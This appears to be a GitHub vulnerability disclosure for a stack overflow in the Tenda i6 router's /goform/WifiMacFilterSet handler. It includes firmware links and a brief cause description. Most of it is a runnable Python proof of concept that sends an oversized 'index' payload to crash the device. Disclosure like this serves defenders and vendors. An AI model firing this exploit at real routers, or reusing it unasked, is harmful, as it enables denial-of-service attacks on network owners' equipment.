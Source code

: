# Tenda APi6 vV1.0.0.8(3856) Stack Overflow
## Firmware information

Manufacturer's address:https://www.tenda.com.cn/

Firmware download address: https://www.tenda.com.cn/download/detail-2570.html

## Affected Version

<img width="1019" alt="image" src="https://github.com/daodaoshao/vol_tenda_i6_1/assets/9769854/fc20290f-e5e4-4e62-9609-b6077b2df1fc">

##  Vulnerability Details

 Vulnerability Location: /goform/WifiMacFilterSet


 The length of the ndex parameter is not verified, sprintf can cause stack overflow vulnerability, it can result in dos attacks on routers.

 <img width="416" alt="image" src="https://github.com/daodaoshao/vul_tenda_i6_2/assets/9769854/645f41ed-abfe-4e56-925e-278f5576ae5b">



The pages of the router 

<img width="416" alt="image" src="https://github.com/daodaoshao/vol_tenda_i6_1/assets/9769854/a9150774-f16b-4550-8864-3abf91eef125">

## POC 

```python
import requests
from pwn import*

ip = "192.168.182.21" 
url = "http://" + ip + "/goform/WifiMacFilterSet"
print(url)

payload =b'a'*0x3000


cookie = {"Cookie":"user="}
data = {"index": payload,"wl_radio":0}
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
print("HackAttackSuccess!")
``` 





